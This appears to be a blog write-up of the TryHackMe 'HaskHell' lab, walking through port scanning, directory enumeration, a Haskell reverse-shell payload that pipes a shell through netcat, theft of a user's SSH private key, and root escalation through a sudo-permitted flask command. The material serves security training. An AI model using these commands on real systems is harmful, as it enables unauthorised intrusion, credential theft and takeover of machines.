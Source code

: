 ```yaml
---
layout: post
date: 2021-8-26 -0500
title: HaskHell
author: Devang-Solanki
categories: Tryhackme
---
```


Room Description : Teach your CS professor that his PhD isn't in security.

lets begin by running Nmap scan ` sudo nmap -sS -A <IP> -v -oN scan `

```console
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
5001/tcp open  http    Gunicorn 19.7.1
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: gunicorn/19.7.1
|_http-title: Homepage
```

We have discovered a webserver running on port 5001, which seems to hosted by a professor.

![](https://user-images.githubusercontent.com/75718583/130963432-ab921629-ac32-4c43-83a5-db48a40b6af0.png)

On exploring the webiste there is a link for uploading homework that redirect to http://IP/homerwork1/upload which dose not seems to works.

lets run dirsearch for discovering hidden directories or files.

```console
dirsearch -u http://10.10.153.185:5001/ --simple-report=web_dir
```
```console
  _|. _ _  _  _  _ _|_    v0.4.1                                                                     
 (_||| _) (/_(_|| (_| )                                                                              
                                                                                                     
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10848

Error Log: /home/kali/Desktop/Tools/dirsearch/logs/errors-21-08-26_17-24-56.log

Target: http://10.10.153.185:5001/                                                                   
                                                                                                     
Output File: /home/kali/Desktop/Tools/dirsearch/reports/10.10.153.185/_21-08-26_17-24-57.txt

[17:24:57] Starting: 
[17:25:03] 200 -  131B  - /uploads/affwp-debug.log       
[17:28:07] 200 -  237B  - /submit                                                        
[17:28:45] 500 -  291B  - /uploads/dump.sql                                                     

Task Completed                                                                                       
``` 
On visiting /submit page we can find a submit button. We can submit our haskell code and run arbitary comands on the server.

![image](https://user-images.githubusercontent.com/75718583/130962994-6d9768d9-47c5-4c5e-9108-dbe5bcc90695.png)

lets create a revshell

```haskell
module Main where

import System.Process

main = callCommand "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc <Your IP> 4444 >/tmp/f"
```
Uploading this script we get our revershell

```console
┌──(kali㉿kali)-[~/Desktop/husky]
└─$ nc -lnvp 4444                                                                             
listening on [any] 4444 ...
connect to [10.8.167.134] from (UNKNOWN) [10.10.150.235] 45040
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(flask) gid=1001(flask) groups=1001(flask)
```
lets Spawn a stable shell
```console
$ python -c 'import pty; pty.spawn("/bin/bash")'
flask@haskhell:~$ ls
ls
app.py  app.pyc  __pycache__  uploads
```
On enumerating the machine I'have found 2 user prof & haskell, in prof's home folder there was user.txt which contains user flag.

```console
flask@haskhell:/home/prof$ ls -al
ls -al
total 44
drwxr-xr-x 7 prof prof 4096 May 27  2020 .
drwxr-xr-x 5 root root 4096 May 27  2020 ..
-rw-r--r-- 1 prof prof  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 prof prof 3771 Apr  4  2018 .bashrc
drwx------ 2 prof prof 4096 May 27  2020 .cache
drwx------ 4 prof prof 4096 May 27  2020 .gnupg
drwxrwxr-x 3 prof prof 4096 May 27  2020 .local
-rw-r--r-- 1 prof prof  807 Apr  4  2018 .profile
drwxrwxr-x 2 prof prof 4096 May 27  2020 __pycache__
drwxr-xr-x 2 prof prof 4096 May 27  2020 .ssh
-rw-r--r-- 1 root root   26 May 27  2020 user.txt

```
```console
flask@haskhell:/home/prof$ cat us 
cat user.txt 
flag{<secret>}
```
Surprisingly .ssh folder was accessible by anyone on visiting .ssh we found ssh keys for the user prof.
```console
cd .ssh
cd .ssh
flask@haskhell:/home/prof/.ssh$ ls -al
ls -al
total 20
drwxr-xr-x 2 prof prof 4096 May 27  2020 .
drwxr-xr-x 7 prof prof 4096 May 27  2020 ..
-rw-rw-r-- 1 prof prof  395 May 27  2020 authorized_keys
-rw-r--r-- 1 prof prof 1679 May 27  2020 id_rsa
-rw-r--r-- 1 prof prof  395 May 27  2020 id_rsa.pub
flask@haskhell:/home/prof/.ssh$ cat id_rsa
cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA068E6x8/vMcUcitx9zXoWsF8WjmBB04VgGklNQCSEHtzA9cr
94rYpUPcxxxYyw/dAii0W6srQuRCAbQxO5Di+tv9aWXmBGMEt0/3tOE7D09RhZGQ
.........................................
-----END RSA PRIVATE KEY-----
```
  
Lets copy this key to our machine and ssh into the user prof another great thing is that this keys is not even password protected.
```console
┌──(kali㉿kali)-[~/Desktop/husky]
└─$ chmod 600 id_rsa                                                                      
                                                                                                     
┌──(kali㉿kali)-[~/Desktop/husky]
└─$ ssh -i id_rsa prof@10.10.150.235
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

  
```  
On checking privileges for user prof we find that he can run `/usr/bin/flask run` with root privileges.

For exploiting this we need to create a python script for spawing a root shell
```python
#!/usr/bin/python
import os
os.system("/bin/bash")
```
Set the variable to our newly created file

```console
export FLASK_APP=/home/prof/bash.py
```

Run `sudo /usr/bin/flask run`
```console
prof@haskhell:~$ sudo /usr/bin/flask run
root@haskhell:~# ls
app.py  __pycache__  rev.sh  user.txt
```
Got the root.txt

```console
root@haskhell:/root# cat root.txt 
flag{<secret>}
```
